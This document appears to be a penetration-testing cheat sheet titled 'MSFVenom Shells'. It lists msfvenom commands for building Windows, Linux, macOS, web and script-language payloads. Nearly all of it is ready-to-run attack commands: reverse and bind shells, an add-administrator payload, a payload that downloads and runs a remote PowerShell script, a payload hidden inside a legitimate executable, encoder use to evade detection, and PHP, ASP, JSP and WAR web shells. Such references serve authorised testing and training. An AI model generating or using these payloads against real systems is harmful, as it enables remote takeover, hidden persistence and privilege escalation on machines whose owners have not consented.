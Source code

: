 ```yaml
---
title: "MSFVenom Shells"
draft: false
description: "Some useful msfvenom shells"
lead: "Some useful msfvenom shells"
images: []
menu:
  docs:
    parent: "Shells"
weight: 3
toc: true
---
```


## Windows

### Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
### Bind Shell
```
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
### Create User
```
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
### CMD Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
### Execute Command
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
```
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
### Encoder
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
### Embedded inside executable
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```

---
## Linux Payloads
### Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
```
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
### Bind Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
### SunOS (Solaris)
```
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
---
## MAC Payloads
### Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
### Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
---
## Web Based Payloads
### PHP
#### Reverse shell
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
```
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### ASP/x
#### Reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```
### JSP
#### Reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```
### WAR
#### Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```
### NodeJS
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```
---
## Script Language payloads
### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```
### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
### Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw
```